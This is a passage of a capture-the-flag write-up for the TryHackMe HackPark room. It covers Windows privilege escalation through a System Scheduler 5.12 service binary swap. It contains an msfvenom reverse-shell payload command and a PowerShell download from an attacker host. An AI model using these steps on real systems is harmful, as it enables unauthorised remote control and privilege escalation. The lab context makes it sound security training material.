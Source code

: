    ```
 1320  672   svchost.exe                                            
 1364  672   WService.exe                                           
 1508  672   wlms.exe                                               
 1516  1364  WScheduler.exe                                         
 1532  672   Ec2Config.exe                                          
 1572  2648  powershell.exe        x64   0        IIS APPPOOL\Blog  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1624  740   SppExtComObj.Exe                                       
 1640  2588  ServerManager.exe                                      
 1752  672   msdtc.exe                                              
 1880  2452  WScheduler.exe                                         
 1888  672   sppsvc.exe                                             
 1964  672   svchost.exe                                            
 2028  672   vds.exe                                                
 2136  2524  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2352  2524  reverse.exe           x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\reverse.exe
 2356  740   WmiPrvSE.exe                                           
 2524  3032  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2552  912   taskhostex.exe                                         
 2588  1880  Message.exe                                            
 2628  2608  explorer.exe                                           
 2648  3032  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 3032  1320  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
   ```

   Once we get that info lets run it through our recommended `windows-privilege-escalation` script to see what we get.

   We have to first update the database with `./windows-exploit-suggester.py --update`
   After that we run `windows-exploit-suggester.py -d [databasePath] --systeminfo [systeminfotxtPath]` with `[systeminfotxtPath]` containing the output of `systeminfo` from the msfconsole.

  We can see the results [here](7)

  From these we can look through a few (looking for ones with Metasploit modules) and see
  what works.

  While running though through the `ps` command we see that a `Message.exe` keeps running then shutting down within the services.

  So additional combing through the log we can find the update logs of the `System Scheduler Professional - Version 5.12` which has a vulnerability to replacing its service with a vulnerable exe with the same name and it will eventually call out to our handler with a hopefully privileged shell. This is explained more [here](8). https://www.exploit-db.com/exploits/45072

  First lets setup another Metasploit handler by backgrounding(`ctrl+z`) our current session, set another [LPORT] then exploit in a background session with `exploit -j`.

  Then lets generate another binary named `Message.exe` with msfvenom using
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[vpnIP] LPORT=[LPORT2] -f exe > Message.exe`
  then download it over to the hackpark machine with
  `powershell Invoke-WebRequest -Uri http://[vpnIP]:[LPORT2]/Message.exe -Outfile Message.exe`

  After uploading that into the correct directory(search for that program directory to find where to replace at.), once it executes it you should get the meterpreter shell. Running `getuid` you get `Server username: HACKPARK\Administrator`. From
  there we can explore the machine more convert to System if wanted. However Administrator is good enough for us for now and we can complete the box.


[1]: https://tryhackme.com/room/hackpark
[2]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_web80.png
[3]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_aspxlogin80.png
[4]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_adminabout80.png
[5]: https://www.exploit-db.com/exploits/46353
[6]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/hackpark/resources/hackpark_filebutton80.png
[7]: ./resources/hackpack_winexploit_suggestions.txt
[8]: https://www.exploit-db.com/exploits/45072
